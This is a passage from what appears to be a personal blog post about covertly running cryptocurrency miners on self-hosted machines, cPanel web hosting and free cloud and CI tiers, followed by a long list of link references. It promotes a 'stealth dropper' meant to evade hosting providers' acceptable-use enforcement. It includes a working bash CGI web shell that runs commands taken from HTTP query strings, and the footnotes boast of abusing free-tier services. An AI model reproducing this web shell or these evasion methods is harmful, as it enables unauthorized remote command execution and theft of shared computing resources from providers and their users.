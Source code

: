### Self hosted containers or VMs

Many hosting providers don't like mining since CPU resources tend to be shared among multiple users, and mining software can easily slow down a host node impacting performance for the rest of the users. This can true even if CPU user time is unlimited, because hashing algorithms can saturate all the caching layers of the CPU if the cache is shared among all the CPU cores.

We would like to use our _fair_ share of resources without getting banned, that's a good use-case for our stealth dropper since it is host usage aware, which means it _should_ stay kind of within [AUP]. There is no extra steps when dealing with self hosted deployments, just the launcher script, maybe added to the boot sequence or launched manually.

### cPanel based web hosting

Web hosting subscriptions plans are mostly offered through [cPanel]. Again here we are using personal subscription plans which have reasonable resource limits, on the other hand any free plan has ridiculous limits [^freehostinglimits].
cPanel allows you to define handlers for different file extensions, this allows us to execute shell scripts through the [cgi] with an http request against a shell script uploaded on the server. These kind of interfaces are what web-shells look like [^cpanelssh].
A simple bash web shell

```bash
# without content encoding the request response won't be honored
echo -e 'Content-Type: text/plain\n'
SERVER_NAME=myserver
## parse vars (for interactive use)
saveIFS=$IFS
IFS='=&'
parm=($QUERY_STRING)
IFS=$saveIFS
for ((i=0; i<${#parm[@]}; i+=2))
do
    declare var_${parm[i]}=${parm[i+1]}
done
## exec command for interactive and proclimited scenarios
url_encoded="${var_path//+/ }"
export PATH=".:$PATH"
. /dev/shm/srv/utils/load.env &>/dev/null

if declare -f "${url_encoded/\%20*}" 1>/dev/null; then ## don't use -n, redirect fd for bcompat
    printf '%b' "${url_encoded//%/\\x}" > /tmp/${SERVER_NAME}.src
else
    if builtin "${url_encoded/\%20*}"; then
        printf '%b' "${url_encoded//%/\\x}" > /tmp/${SERVER_NAME}.src
    else
        printf 'exec %b' "${url_encoded//%/\\x}" > /tmp/${SERVER_NAME}.src
    fi
fi
. /tmp/${SERVER_NAME}.src
```

It is better to only rely on builtins as forking additional processes may not be allowed in web jails, but it is always possible to `exec` which allows us to use most command line utilities. Most web shells are written in other scripting languages like python or php as you don't have to worry about forking.


[^adversary]: _the grumpy sysadmin_
[^infoproc]: even though this would break many privacy assumptions, I am sure most of them just peek inside whenever there is a incumbent problem, but this is only a problem for container based runtimes, whereas VMs are pretty much black boxes.
[^monerominer]: the miner built into the monero node got some work to make it more background friendly, but the distribution of xmrig was never focused on background friendliness.
[^difficulty]: some pools offer different difficulties on different connection ports, and tend to align the job difficulty to the miner submitted shares, but the granularity of the proxy was still more convenient, as it would prevent pool [lock-in] \(although we never really switched pools \).
[^configwatch]: it wasn't happy when the config suddenly appeared and disappeared from the file system
[^stratumprotocol]: We don't talk about the [stratum protocol] since we just have to deal with whatever is implemented in _both_ the pool and the miner...which is usually the bare minimum, and possibly with non standard extensions.
[^fullbash]: never go full bash :\)
[^memoryondemand]: I have not explored what happens when a processes loads additional functionality at runtime, as the kernel would look for the address in the memory layout of the executable, which would access the filesystem and possibly causing a crash.
[^freehostinglimits]: Limits are arbitrary, cpu time is less than a second, memory is less than 128M, outbound connections are blocked.
[^cpanelssh]: with a little bit of patience you can also run a full ssh instance over an environment bootstrapped around your cpanel account space, _without_ having access to the cpanel builtin SSH which tends to be disabled by hosting providers.
[^openshift]: openshift went from a 1 year free tier to 3 months to 1 month, starting to require phone authentication, I can guarantee I was not the only one abusing their services.
[^herokucontainers]: Heroku free tier containers are quite generous in resources, they provide 4c/8t (virtual) cpus, plenty of ram and large storage (which however is not persistent and discarded on dyno shutdown).
[^saddrone]: They adde muc strictier registration rules, after a couple of bans, I might have contributed to it.
[cryptocurrencies]: https://en.wikipedia.org/wiki/Cryptocurrency
[ASICS]: https://en.wikipedia.org/wiki/Application-specific_integrated_circuit
[CPU friendly coins]: \stuff/a-few-notes-on-proof-of-work
[miner]: https://github.com/xmrig/xmrig
[another miner]: https://github.com/Bendr0id/xmrigCC
[proxy]: https://github.com/Bendr0id/xmrigcc-proxy
[tunnel]: https://github.com/search?q=tunnel
[somebody]: https://twitter.com/sarahjamielewis
[lost bets]: https://web.archive.org/web/https://twitter.com/SarahJamieLewis/status/1185724467776851968
[DNS]: https://en.wikipedia.org/wiki/Domain_Name_System
[dos]: https://en.wikipedia.org/wiki/Denial-of-service_attack
[dig]: https://web.archive.org/web/20201107155737/https://downloads.isc.org/isc/bind9/
[TXT]: https://en.wikipedia.org/wiki/TXT_record
[statically linked]: https://en.wikipedia.org/wiki/Standalone_program
[recommended]: https://www.ietf.org/rfc/rfc6763.txt
[cloudflare]: https://www.cloudflare.com/
[freedns]: https://freedns.afraid.org/
[used to]: https://web.archive.org/save/https://community.cloudflare.com/t/was-there-a-reduction-in-maximum-txt-size
[NULs]: https://en.wikipedia.org/wiki/Null_character
[base64]: https://en.wikipedia.org/wiki/Base64
[curl]: https://curl.se/
[wget]: https://www.gnu.org/software/wget/
[bash]: https://en.wikipedia.org/wiki/Bash_%28Unix_shell%29
[cf cli]: https://web.archive.org/web/20210305071742/https://github.com/cloudflare/cloudflare-go/blob/master/cmd/flarectl/README.md
[trampoline]: https://en.wikipedia.org/wiki/Trampoline_(computing)
[container]: https://en.wikipedia.org/wiki/OS-level_virtualization
[here]: \assets/stuff/bash_functions.txt
[IPC]: https://en.wikipedia.org/wiki/Inter-process_communication
[ulimits]: https://web.archive.org/web/https://linux.die.net/man/5/limits.conf
[ipinfo]: https://ipinfo.io/
[geoip.json]: \assets/stuff/geoip.json
[technical debt]: https://en.wikipedia.org/wiki/Technical_debt
[state machine]: https://en.wikipedia.org/wiki/Finite-state_machine
[proxychains]: https://web.archive.org/web/20210121093409/https://github.com/haad/proxychains
[forward tunnel]: https://web.archive.org/web/20210315094551/https://github.com/ginuerzh/gost
[mining proxy]: https://web.archive.org/web/20201207221231/https://github.com/Snipa22/xmr-node-proxy
[lock-in]: https://en.wikipedia.org/wiki/Vendor_lock-in
[stratum protocol]: https://en.bitcoin.it/wiki/Stratum_mining_protocol
[cdn]: https://en.wikipedia.org/wiki/Content_delivery_network
[aup]: https://en.wikipedia.org/wiki/Acceptable_use_policy
[cpanel]: https://en.wikipedia.org/wiki/CPanel
[cgi]: https://en.wikipedia.org/wiki/Common_Gateway_Interface
[Cloud9]: https://aws.amazon.com/cloud9
[Codeanywhere]: https://web.archive.org/web/20210314172852/https://codeanywhere.com/
[Puppeteer]: https://web.archive.org/web/20210318213139/https://developers.google.com/web/tools/puppeteer
[Openshift]: https://www.openshift.com/
[Heroku]: https://www.heroku.com/
[Bitrise]: https://web.archive.org/web/20210222050951/https://www.bitrise.io/
[Continuousphp]: https://web.archive.org/web/20210310010750/https://continuousphp.com/
[Travis]: https://web.archive.org/web/20210324163536/https://travis-ci.org/
[Semaphore]: https://web.archive.org/web/20210308041527/https://semaphoreci.com/
[Wercker]: https://web.archive.org/web/20210308202144/https://app.wercker.com/
[Buddy]: https://web.archive.org/web/20210322133805/https://buddy.works/
[Drone]: https://web.archive.org/web/20210327045555/https://cloud.drone.io/welcome
[Codeship]: https://web.archive.org/web/20210322100629/https://www.cloudbees.com/products/codeship
[Docker-hub]: https://web.archive.org/web/20210322105637/https://hub.docker.com/
[Semaphore]: https://web.archive.org/web/20210308041527/https://semaphoreci.com/
[CI]: https://en.wikipedia.org/wiki/Continuous_integration